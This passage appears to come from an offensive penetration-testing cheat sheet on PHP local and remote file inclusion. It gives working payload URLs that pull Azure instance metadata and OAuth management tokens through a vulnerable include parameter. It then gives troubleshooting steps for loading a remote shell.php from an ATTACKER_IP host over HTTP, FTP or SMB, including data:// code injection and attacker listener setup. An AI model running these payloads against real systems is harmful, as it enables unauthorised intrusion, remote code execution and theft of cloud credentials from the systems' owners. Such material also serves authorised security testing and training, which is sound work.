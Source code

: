 **Azure Metadata Extraction:**
```bash
# Azure instance metadata
http://target.com/lfi.php?file=http://169.254.169.254/metadata/instance?api-version=2021-02-01

# Azure access tokens
http://target.com/lfi.php?file=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
```

---

## RFI Troubleshooting

### Problem: RFI not working with HTTP
```bash
# Issue: allow_url_include disabled
# Check 1: Verify PHP configuration
http://target.com/lfi.php?file=data://text/plain,<?php echo ini_get('allow_url_include'); ?>

# Check 2: Try different protocols
ftp://ATTACKER_IP/shell.php      # FTP protocol
\\ATTACKER_IP\share\shell.php    # SMB protocol (Windows)

# Check 3: Check firewall/network restrictions
# Test if target can reach your server
sudo tcpdump -i any -n host TARGET_IP
```

### Problem: Server unreachable
```bash
# Issue: Target cannot reach attacker server
# Check 1: Verify server is listening
netstat -tlnp | grep :80

# Check 2: Check firewall rules
sudo iptables -L | grep 80
sudo ufw status

# Check 3: Test with different ports
python3 -m http.server 8080
python3 -m http.server 443
```

### Problem: File not executing
```bash
# Issue: Remote file included but not executed
# Check 1: Verify file content
curl http://ATTACKER_IP/shell.php

# Check 2: Check PHP syntax
php -l shell.php

# Check 3: Try different file extensions
shell.txt      # Plain text
shell.php      # PHP file
shell.inc      # Include file
```
